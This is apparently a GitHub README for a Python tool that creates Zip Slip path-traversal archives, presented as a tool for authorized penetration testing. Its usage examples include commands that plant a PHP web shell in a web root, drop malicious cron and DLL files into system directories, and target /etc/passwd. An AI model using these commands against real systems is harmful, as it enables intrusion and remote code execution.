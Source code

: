 # s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Windows and Linux path traversal support
- Customizable target paths and filenames
- Flexible file content specification

## Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` (Linux) or `..\..\..\Windows\Temp\` (Windows) |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Linux path traversal:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Windows path traversal:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\Temp\' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive targeting Windows System32:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\System32\' -f malicious.dll -o exploit.jar
```

**Create a JAR archive with PHP shell content (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar)
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../` for Linux or `..\` for Windows). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory. The tool automatically detects the target platform based on the path separators used.